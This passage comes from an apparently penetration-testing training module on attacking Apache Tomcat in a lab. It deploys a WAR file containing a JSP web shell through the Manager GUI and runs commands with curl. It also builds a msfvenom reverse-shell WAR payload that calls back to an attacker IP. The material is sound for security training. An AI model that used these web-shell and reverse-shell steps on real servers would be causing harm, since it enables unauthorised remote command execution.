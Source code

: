 Click on `Browse` to select the .war file and then click on `Deploy`.

![image](https://academy.hackthebox.com/storage/modules/113/mgr\_deploy.png)

This file is uploaded to the manager GUI, after which the `/backup` application will be added to the table.

![](https://academy.hackthebox.com/storage/modules/113/war\_deployed.png)

If we click on `backup`, we will get redirected to `http://web01.inlanefreight.local:8180/backup/` and get a `404 Not Found` error. We need to specify the `cmd.jsp` file in the URL as well. Browsing to `http://web01.inlanefreight.local:8180/backup/cmd.jsp` will present us with a web shell that we can use to run commands on the Tomcat server. From here, we could upgrade our web shell to an interactive reverse shell and continue. Like previous examples, we can interact with this web shell via the browser or using `cURL` on the command line. Try both!

Attacking Tomcat

```shell-session
AIceBear@htb[/htb]$ curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id

<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
Command: id<BR>
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)

</pre>
</BODY></HTML>
```

To clean up after ourselves, we can go back to the main Tomcat Manager page and click the `Undeploy` button next to the `backups` application after, of course, noting down the file and upload location for our report, which in our example is `/opt/tomcat/apache-tomcat-10.0.10/webapps`. If we do an `ls` on that directory from our web shell, we'll see the uploaded `backup.war` file and the `backup` directory containing the `cmd.jsp` script and `META-INF` created after the application deploys. Clicking on `Undeploy` will typically remove the uploaded WAR archive and the directory associated with the application.

We could also use `msfvenom` to generate a malicious WAR file. The payload [java/jsp\_shell\_reverse\_tcp](https://github.com/iagox86/metasploit-framework-webexec/blob/master/modules/payloads/singles/java/jsp\_shell\_reverse\_tcp.rb) will execute a reverse shell through a JSP file. Browse to the Tomcat console and deploy this file. Tomcat automatically extracts the WAR file contents and deploys it.

Attacking Tomcat

```shell-session
AIceBear@htb[/htb]$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war

Payload size: 1098 bytes
Final size of war file: 1098 bytes
```
